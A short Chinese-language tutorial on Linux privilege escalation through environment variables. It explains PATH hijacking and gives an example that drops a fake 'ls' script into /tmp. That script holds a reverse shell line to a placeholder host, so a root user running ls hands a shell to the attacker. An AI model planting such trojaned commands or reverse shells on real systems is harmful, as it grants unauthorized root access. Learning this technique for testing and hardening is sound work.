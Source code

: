 ## 原理

Linux系统中的许多程序和脚本在执行时会读取环境变量，这些变量可能会影响程序的行为。如果攻击者可以操纵这些变量，可能会达成一些目的，如执行恶意代码，替换合法的程序等。



## 方法



### PATH劫持

#### 原理

当执行命令时，Shell会根据$PATH环境变量中列出来的路径来搜索可执行文件。如果攻击这可以在$PATH中放入恶意程序的路径（如在/tmp目录下创建一个可执行文件），系统首先会执行恶意程序，而不是合法程序，从而获得更高的权限



#### 示例

```
export PATH=/tmp:$PATH  # 将/tmp放在PATH最前面  
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/<ip>/<port> 0>&1' > /tmp/ls  
chmod +x /tmp/ls  
ls # 此时ls命令将执行攻击者的代码  
```

将/tmp目录下的ls设置为弹shell脚本

当root用户自动调用ls脚本的话，shell会检查$PATH环境变量中的路径，由于/tmp目录在PATH最前面，因此会优先执行恶意程序ls命令而非正常命令，即可以获取到root的shell
